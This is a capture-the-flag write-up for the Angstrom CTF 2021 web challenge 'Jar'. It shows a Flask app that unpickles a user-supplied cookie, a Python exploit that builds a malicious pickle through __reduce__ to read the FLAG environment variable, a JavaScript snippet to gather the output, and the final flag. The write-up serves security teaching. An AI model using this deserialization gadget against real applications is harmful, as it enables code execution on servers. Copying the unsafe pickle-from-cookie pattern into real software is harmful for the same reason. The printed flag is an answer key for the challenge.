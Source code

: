 ```yaml
---
name: Jar (2021)
event: Angstrom CTF 2021
category: Web
description: Writeup for Jar (Web) - Angstrom CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Jar

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/c147fBCppb8/0.jpg)](ttps://youtu.be/c147fBCppb8?t=28s "Angstrom 2021: Jar")

## Challenge Description

> My other pickle challenges seem to be giving you all a hard time, so here's a simpler one to get you warmed up.

## Source

```py
import base64
import pickle
from flask import Flask, send_file, request, make_response, redirect
import random
import os

app = Flask(__name__)

flag = os.environ.get('FLAG', 'actf{FAKE_FLAG}')

@app.route('/pickle.jpg')
def bg():
    return send_file('pickle.jpg')

@app.route('/')
def jar():
    contents = request.cookies.get('contents')
    if contents:
        items = pickle.loads(base64.b64decode(contents))
    else:
        items = []
    return '<form method="post" action="/add" style="text-align: center; width: 100%"><input type="text" name="item" placeholder="Item"><button>Add Item</button><img style="width: 100%; height: 100%" src="/pickle.jpg">' + \
        ''.join(f'<div style="background-color: white; font-size: 3em; position: absolute; top: {random.random()*100}%; left: {random.random()*100}%;">{item}</div>' for item in items)

@app.route('/add', methods=['POST'])
def add():
    contents = request.cookies.get('contents')
    if contents:
        items = pickle.loads(base64.b64decode(contents))
    else:
        items = []
    items.append(request.form['item'])
    response = make_response(redirect('/'))
    response.set_cookie('contents', base64.b64encode(pickle.dumps(items)))
    return response

app.run(threaded=True, host="0.0.0.0")
```

## Solution

#### exploit.py

```py
import pickle
import base64
import os


class RCE(object):
    def __reduce__(self):
        return (os.getenv, ('FLAG',))


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```

#### print_flag.js

```js
var divs = document.getElementsByTagName("div");
var flag = "";

for (var i = 0; i < divs.length; i++) {
    flag += divs[i].innerText;
}

console.log(flag);
```

Flag: `actf{you_got_yourself_out_of_a_pickle}`
